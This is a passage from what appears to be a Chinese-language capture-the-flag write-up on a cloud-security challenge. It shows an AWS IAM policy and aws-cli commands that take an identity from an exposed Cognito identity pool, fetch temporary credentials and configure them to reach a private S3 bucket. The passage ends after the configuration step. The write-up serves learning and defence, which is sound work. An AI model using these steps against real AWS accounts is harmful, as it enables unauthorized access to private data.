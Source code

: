 题目 policy：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": [
                "mobileanalytics:PutEvents",
                "cognito-sync:*"
            ],
            "Resource": "*"
        },
        {
            "Sid": "VisualEditor1",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:ListBucket"
            ],
            "Resource": [
                "arn:aws:s3:::wiz-privatefiles",
                "arn:aws:s3:::wiz-privatefiles/*"
            ]
        }
    ]
}
```

大致意思是，该策略下的用户，可以操作 s3 和 cognito。

那么，首先我们必需要获得这个策略。根据题目提示，这个策略是通过 AWS Cognito 来配置身份的。所以我们需要从目标的身份池中获取一个合法身份。

此时，我们再次查看网站源码，发现存在身份池：

<div align=center><img width="1000" src="/img/2000000019.png"></div></br>

接下来，我们利用 aws-cli 来获取身份池的身份：

```bash
aws cognito-identity get-id --identity-pool-id us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b
```

获得身份id之后，再获取此身份id的临时凭证：

```bash
aws cognito-identity get-credentials-for-identity --identity-id us-east-1:5a7b65c9-6292-4f98-999a-bb7c5779599c
```

然后，配置该身份凭证：

```bash
aws configure set aws_access_key_id xxx
aws configure set aws_secret_access_key xxx
aws configure set aws_session_token xxx
```
